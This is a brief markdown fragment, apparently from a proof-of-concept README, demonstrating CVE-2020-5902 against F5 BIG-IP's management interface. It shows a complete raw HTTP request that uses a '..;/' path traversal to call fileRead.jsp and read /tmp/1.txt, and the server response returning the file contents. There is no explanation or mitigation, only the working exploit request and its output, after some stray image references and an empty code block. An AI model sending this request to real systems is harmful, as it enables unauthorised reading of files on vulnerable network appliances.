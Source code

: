 ```






```

#### File Read /tmp/1.txt

![](./tmp_1.png)

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/tmp/1.txt HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```
HTTP/1.1 200 OK
Date: Mon, 06 Jul 2020 02:06:07 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Set-Cookie: JSESSIONID=x; Path=/tmui; Secure; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
Vary: Accept-Encoding
Content-Length: 32
Connection: close





{"output":"CVE-2020-5902\n"}
```
